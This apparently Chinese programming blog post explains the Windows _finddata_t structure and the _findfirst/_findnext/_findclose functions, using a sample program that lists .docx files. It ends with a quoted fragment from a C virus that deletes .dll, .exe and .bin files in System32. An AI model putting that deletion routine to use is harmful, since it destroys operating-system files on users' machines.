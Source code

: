 ## [_finddata_t结构体用法](https://blog.csdn.net/wangqingchuan92/article/details/77979669)
Struct _finddata_t是用来存储文件各种信息的结构体，使用这个结构体要引用的头文件为“ #include <io.h>”它的结构体定义如下：
```cpp
struct _finddata_t
{
      unsigned attrib;
      time_t time_create;
      time_t time_access;
      time_t time_write;
      _fsize_t size;
      char name[_MAX_FNAME];
};
```
该结构体中各成员的变量的含义如下：
unsigned atrrib：文件属性的存储位置。它存储一个unsigned单元，用于表示文件的属性。文件属性是用位表示的，主要有以下一些：_A_ARCH（存档）、 _A_HIDDEN（隐藏）、_A_NORMAL（正常）、_A_RDONLY（只读）、_A_SUBDIR（文件夹）、_A_SYSTEM（系统）。这些都是在中定义的宏，可以直接使用，而本身的意义其实是一个无符号整型（只不过这个整型应该是2的几次幂，从而保证只有一位为 1，而其他位为0）。既然是位表示，那么当一个文件有多个属性时，它往往是通过位或的方式，来得到几个属性的综合。例如只读+隐藏+系统属性，应该为：_A_HIDDEN | _A_RDONLY | _A_SYSTEM 。

time_t time_create：这里的time_t是一个变量类型，实际上就是长整形变量 long int，用来保存从1970年1月1日0时0分0秒到现在时刻的秒数

time_t time_access：文件最后一次被访问的时间。

time_t time_write：文件最后一次被修改的时间。

_fsize_t size：文件的大小（字节数表示）。

char name[_MAX_FNAME]：文件的文件名。这里的_MAX_FNAME是一个常量宏，它在头文件中被定义，表示的是文件名的最大长度。

如何使用这个结构体才能够将文件的信息存储到该结构体的内存空间呢，这就需要_findfirst（）、_findnext（）和_fineclose（）三个函数的搭配使用，下面介绍这三个函数：

 

 

long _findfirst( char *filespec, struct _finddata_t *fileinfo )；

        返回值：如果查找成功的话，将返回一个long型的唯一的查找用的句柄。这个句柄将会在_findnext函数中被使用。失败返回-1.

        参数：

        filespec：标明文件的字符串，可支持通配符。比如：*.c，则表示当前文件夹下的所有后缀为C的文件。

        fileinfo ：这里就是用来存放文件信息的结构体的指针。这个结构体必须在调用此函数前声明，不过不用初始化，只要分配了内存空间就可以了。函数成功后，函数会把找到的文件的信息放入这个结构体所分配的内存空间中。

int _findnext( long handle, struct _finddata_t *fileinfo );

        返回值：若成功返回0，否则返回-1。

        参数：

         handle：即由_findfirst函数返回回来的句柄。

         fileinfo：文件信息结构体的指针。找到文件后，函数将该文件信息放入此结构体中。

int _findclose( long handle );

         返回值：成功返回0，失败返回-1。

         参数：

          handle ：_findfirst函数返回回来的句柄。

该结构体和搭配的函数使用的逻辑就是先用_findfirst查找第一个文件，若成功则用返回的句柄，调用_findnext函数查找其他的文件，当查找完毕后用，用_findclose函数结束查找。下面我们就按照这样的思路来编写一个查找某一个文件夹下的所有word文档的程序。

现在在E盘建立一个文件夹名叫“Test”，在该文件夹内，建立四个word文件和文本文件，如下图：
然后打开visual 2010 新建工程，输入如下代码：
```cpp
#include<stdio.h>
#include<io.h>
#include<Windows.h>
 
#define ADDR "E://Test//*.docx"
 
const char* SreachAddr=ADDR;
 
int main(void)
{
	long Handle;
	struct _finddata_t FileInfo;
	Handle=_findfirst(SreachAddr,&FileInfo);
	if(-1==Handle)
		return -1;
	printf("%s\n",FileInfo.name);
	while(!_findnext(Handle,&FileInfo))
	{
		printf("%s\n",FileInfo.name);
	}
	_findclose(Handle);
	system("pause");
  
	return 0;
}
```
编译运行，结果如下：

 



当然，在找到所有需要的文件后，不仅仅可以通过终端打印出来，还可以进行删除、改名等操作。一般的C语言病毒会用到这个结构体加配合函数进行找到某一类型的文件然后进行恶意删除，例如某一C语言病毒中的删除操作代码如下：
```cpp
void Remove()
{
  int done;
   int i;
 
   struct _finddata_t ffblk;
   char *documenttype[3] = {"C://Windows//System32//*.dll","C://Windows//System32//*.exe","C://Windows//System32//*.bin"};
   for (i = 0; i < 3; i++)
   {
     done = _findfirst(documenttype[i],&ffblk);    
     remove(ffblk.name);
 
     while (!_findnext(done,&ffblk))
     {
         remove(ffblk.name);
     }
     _findclose(done);
   }
 
}    
```
参考资料：
1.[http://blog.csdn.net/yang332233/article/details/53081785](http://blog.csdn.net/yang332233/article/details/53081785)
2.[http://blog.csdn.net/wzhwho/article/details/6372353](http://blog.csdn.net/wzhwho/article/details/6372353)
